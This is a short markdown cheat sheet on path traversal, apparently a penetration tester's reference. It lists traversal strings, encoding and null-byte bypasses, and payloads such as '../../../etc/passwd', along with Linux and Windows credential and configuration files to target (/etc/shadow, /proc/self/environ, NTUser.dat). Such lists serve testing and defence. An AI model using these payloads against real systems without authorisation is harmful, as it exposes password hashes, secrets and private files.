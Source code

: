 Path traversal
------------------------------------------------------------
A directory traversal (or path traversal) consists in exploiting insufficient security validation / sanitization of user-supplied input file names, such that characters representing "traverse to parent directory" are passed through to the file APIs. 

Where to detect?
------------------------------------------------------------
Check dynamic URL: 
```
https://yevh.ye/img/loadImage?filename=ye.jpj
```

Check page elements:
```
<img src="/loadImage?filename=ye.jpj">
```

Basic checks:
```
..
../
..\
..../
....\/
....//
....\\
```

Encoding: 
```
..%c0%af
..%252f
%2e%2e%2f
%252e%252e%252f
%c0%ae%c0%ae%c0%af
%uff0e%uff0e%u2215
%uff0e%uff0e%u2216
```

Expected base folder:
```
/var/www/images/../../../etc/passwd
```
Expected file extension:
```
/var/www/images/../../../etc/passwd%00.jpj
```

Popular servers path:
```
/var/www/   - Apache
/etc/nginx/ - NGINX
```

Linux interesting files:
```
/etc/passwd
/etc/shadow
/proc/self/environ
/etc/mysql/my.cnf
/proc/net/route
```

Windows interesting files:
```
\windows\win.ini
\inetpub\logs\logfiles
\Users\Administrator\NTUser.dat
\Administrator\NTUser.dat
\apache\logs\access.log
\apache\logs\error.log
\apache\php\php.ini

```
References
------------------------------------------------------------
[Wikipedia](https://en.wikipedia.org/wiki/Directory_traversal_attack)  
[Owasp](https://www.owasp.org/index.php/Path_Traversal)
